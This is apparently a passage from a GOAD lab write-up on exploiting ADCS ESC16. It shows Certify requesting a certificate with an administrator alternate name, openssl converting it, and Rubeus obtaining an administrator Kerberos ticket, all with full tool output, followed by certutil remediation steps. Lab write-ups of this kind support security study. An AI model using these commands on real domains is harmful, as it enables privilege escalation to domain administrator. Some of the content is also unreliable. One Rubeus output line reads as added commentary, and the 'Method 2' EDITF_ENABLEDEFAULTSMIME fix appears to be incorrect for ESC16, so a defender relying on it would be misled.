 ```bash
# ESC16 makes even restricted templates exploitable
# Request certificate from a normally "safe" template
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /altname:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : User
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 20

# Due to ESC16, the certificate lacks the security extension
# even though the template might normally include it

# Convert and use for authentication
openssl pkcs12 -in cert.pem -export -out admin_esc16.pfx -password pass:mimikatz

# Authentication succeeds despite missing security extension

Rubeus.exe asktgt /user:administrator /certificate:admin_esc16.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful! - ESC16 allows impersonation without SID binding

  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 7:45:30 PM
  EndTime                  : 1/4/2025 5:45:30 AM
  RenewTill                : 1/10/2025 7:45:30 PM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
```

### Remediation

**Immediate Fix:**

```bash
# Re-enable security extension requirement on GOAD CA
# Method 1: Remove szOID_NTDS_CA_SECURITY_EXT from DisableExtensionList (Recommended)
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\DisableExtensionList -"1.3.6.1.4.1.311.25.2"

CertUtil: -setreg command completed successfully.

# Method 2: Alternative approach using EDITF_ENABLEDEFAULTSMIME (also effective)
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ENABLEDEFAULTSMIME

# Restart Certificate Services
Restart-Service CertSvc

WARNING: Waiting for service 'Active Directory Certificate Services (CertSvc)' to stop...
WARNING: Waiting for service 'Active Directory Certificate Services (CertSvc)' to start...

Status   Name               DisplayName
------   ----               -----------
Running  CertSvc            Active Directory Certificate Services
```